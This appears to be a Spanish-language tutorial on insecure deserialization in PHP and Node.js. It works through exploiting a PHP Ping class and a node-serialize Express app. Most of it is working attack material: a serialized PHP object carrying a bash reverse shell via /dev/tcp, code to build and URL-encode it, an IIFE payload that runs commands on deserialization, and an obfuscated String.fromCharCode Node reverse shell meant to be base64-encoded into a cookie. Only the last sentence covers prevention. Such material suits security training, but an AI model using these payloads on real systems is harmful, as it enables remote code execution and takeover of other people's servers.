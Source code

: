 
# Serialización y Deserialización

La serialización es el proceso de convertir un objeto en un formato que pueda ser almacenado o transmitido, mientras que la deserialización es la reconstrucción del objeto a partir de dicho formato. Este proceso es común en la comunicación entre sistemas distribuidos, almacenamiento de datos y persistencia de objetos en bases de datos o archivos.

## Ejemplo de Estructura de un Objeto Serializado en PHP

Supongamos que tenemos una clase **Ping** con dos atributos: **ip** para almacenar una dirección IP y **valid** para indicar si la dirección IP es válida o no. Un ejemplo de un objeto serializado de esta clase podría ser:

```
O:4:"Ping":2:{s:2:"ip";s:9:"127.0.0.1";s:5:"valid";b:1;}
```

## Manipulación de Objetos Serializados

La manipulación maliciosa de objetos serializados puede ocurrir si no se valida adecuadamente la entrada del usuario. Por ejemplo, si un atacante puede modificar el valor de **valid** a **true**, podría inyectar código malicioso en la dirección IP y ejecutarlo en el sistema en este caso una reverse shell  como se muestra a continuacion.

```bash
O:4:"Ping":2:{s:2:"ip";s:44:";bash -c 'bash -i >& /dev/tcp/ip/puerto 0>&1";s:5:"valid";b:1;}
```

## Ejemplo de Código en PHP para Serializar y URL-encodear un Objeto

```php
<?php
class Ping {
    public $ip;
    public $valid = false;
    
    public function __construct($ip) {
        $this->ip = $ip;
        $this->valid = $this->validateIP($ip);
    }
    
    private function validateIP($ip) {
        // Validación básica de dirección IP
        return filter_var($ip, FILTER_VALIDATE_IP) !== false;
    }
    
    public function executeCommand() {
        if ($this->valid) {
            system("ping -c 4 " . $this->ip);
        } else {
            echo "Dirección IP no válida";
        }
    }
}

// Crear objeto y serializarlo
$pingObj = new Ping("127.0.0.1");
$serializedObj = serialize($pingObj);

// URL-encodear el objeto serializado
$urlEncodedObj = urlencode($serializedObj);

echo $urlEncodedObj;
?>
```

En este ejemplo, el atacante podría modificar el objeto serializado antes de deserializarlo, cambiando el valor de `$valid` a `true` para permitir la ejecución del comando `system exec`, lo que podría ser utilizado para realizar ataques de inyección de código.

```php 
<?php 

class Ping{

  public $ip = ";bash -c 'bash -i >& /dev/tcp/ip/puerto 0>&1";
  public $valid = True;

}

echo urlencode(serialize(new Ping));

?>
```

Con este codigo puedes serealizar un objeto y un urlencodearlo facilmente para asi poder hacer una reverse shell

# Ejemplo de Estructura de un Objeto Serializado en NodeJS


```js
{"username":"ajin","country":"india","city":"bangalore"}
```

Estos datos representan información de un usuario, donde "username" es el nombre de usuario, "country" es el país de origen del usuario y "city" es la ciudad en la que vive el usuario.

```js 
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser());

app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) {
     res.send("Hello " + escape(obj.username));
   }
 } else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello World");
});
app.listen(3000);

```

Este codigo levanta un servidor vulnerable a ataques de deserealizacion 

```js
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));

```

Este codigo sirve para serealizar pero en javascript en este caso se esta serealizando un intento de ejecucion de comandos 

Esto nos daria algo asi:

```js
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```

Con ayuda del IIFE podemos hacer que despues de serealizar se ejecute inmediatamente solo colocando al final () como se muestra a continuacion:

```js
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 }(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));

```

Lamentablemente esto solo lo ejecutara pero solo al serealizar lo que queremos nosostros es que lo ejecuto al momento de deserealizar afortunadamente esto es posible gracias al IIFE como se muestra a continuacion:

```js
var serialize = require('node-serialize');
var payload = {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });}()"};
serialize.unserialize(payload);

```

Con este codigo de ejemplo ponemos a prueba el concepto del IIFE ya que antes de deseralizar se ejecutara nuestro comando para esto en el payload tenemos que escapar las comillas y quitar los saltos de linea



Ahora si queremos hacer una reverse shell podemos hacer uso de la herramienta [nodejsshell.py](https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py) para usarla tenemos que hacer lo siguiente:

```bash
python2.7 nodejsshell.py ip puerto
```

Esto nos genera algo asi:

```js
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,48,46,49,50,56,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```

Ya con esto ahora solo tendremos que adptarlo y con el uso del IIFE hacer que se ejecute:

```js
{"rce":"_$$ND_FUNC$$_function{eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,48,46,49,50,56,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```

Ya solo lo ciframos en base 64 y mandamos en la cookie hacemos nos ponemos en escucha en el puerto especificado en nuestra maquina atacante y asi seria como tendiramos una reverse shell

Para prevenir este tipo de ataques, es crucial validar la entrada del usuario y nunca deserializar datos no confiables. Además, se deben implementar mecanismos de autenticación y autorización adecuados para limitar el acceso a funcionalidades sensibles del sistema.